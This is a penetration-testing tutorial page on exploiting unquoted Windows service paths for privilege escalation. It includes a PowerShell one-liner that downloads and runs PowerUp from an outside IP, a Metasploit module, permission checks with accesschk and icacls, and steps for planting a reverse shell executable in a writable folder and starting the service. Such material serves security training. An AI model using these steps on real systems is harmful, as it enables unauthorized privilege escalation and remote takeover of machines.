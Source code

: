 # Unquoted Service Path

Executables in Windows can be run without using their extension (e.g. “whoami.exe” can be run by just typing “whoami”). Some executables take arguments, separated by spaces, e.g. someprog.exe arg1 arg2 arg3… This behavior leads to ambiguity when using absolute paths that are unquoted and contain spaces.

Consider the following unquoted path: C:\Program Files\Some Dir\SomeProgram.exe

To us, this obviously runs SomeProgram.exe. To Windows, C:\Program could be the executable, with two arguments: “Files\Some” and “Dir SomeProgram.exe” Windows resolves this ambiguity by checking each of the possibilities in turn. **If we can write to a location Windows checks before the actual executable, we can trick the service into executing it instead.**

## <mark style="color:red;">detecting unquoted service paths</mark>

### <mark style="color:orange;">manual method</mark>

```
sc query vaultsvc → query the credential manager
```

searching for all unquoted service binary paths:

```
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

This command finds the service name, executable path, display name of the service and auto starts in all the directories except C:\Windows (since by default there is no such service which has spaces and is unquoted in this folder). Also, we need to exclude those services that are enclosed within the double quotes.

### <mark style="color:orange;">automated with metasploit</mark>

We use Metasploit’s exploit/windows/local/trusted\_service\_path.

```
use exploit/windows/local/trusted_service_path
set session 1
exploit
```

### <mark style="color:orange;">automated using powerup</mark>

```
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.81/PowerUp.ps1');Get-ServiceUnquoted"
```

### <mark style="color:orange;">automated with winPEAS</mark>

Run winPEAS to check for service misconfigurations:

```
winPEASany.exe quiet servicesinfo
```

![](<../../../../.gitbook/assets/image (100).png>)

Note that the “unquotedsvc” service has an unquoted path that also contains spaces:

C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe

Confirm this using sc:

```
sc qc unquotedsvc
```

![](<../../../../.gitbook/assets/image (101).png>)

we can detect it using

Use accesschk.exe to check for write and startpermissions:

```
accesschk.exe -ucqv user unquotedsvc
```

![](<../../../../.gitbook/assets/image (77).png>)

we have start permission, now check for write permission on each directory path to the binary file:

```
accesschk.exe /accepteula -uwdq C:\
accesschk.exe /accepteula -uwdq "C:\Program Files\"
accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

or

```
icacls c:\
icacls "c:\\Program Files"
icacls "c:\\Program Files\\Unquoted Path Service"
```

![](<../../../../.gitbook/assets/image (75).png>)

it looks like all the members of the builtin\users group have RW (read/write) access to this directory. we are a member of that group so we can create a file named Common.exe in C:\Program Files\Unquoted Path Service and have it execute a reverse shell. (because C:\Program Files\Unquoted Path Service is the first path that our user group has rw access and the next thing that windows looks for while executing the binary is the name "Common" in the "Common Filess" string so if we create a reverse shell executable named Common.exe it will be executed befor windows reaches the "Common Files" directory

Copy the reverse shell executable and rename it appropriately:

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```

Start a listener on Kali, and then start the service to trigger the exploit:

```
net start unquotedsvc
```

![](<../../../../.gitbook/assets/image (97).png>)
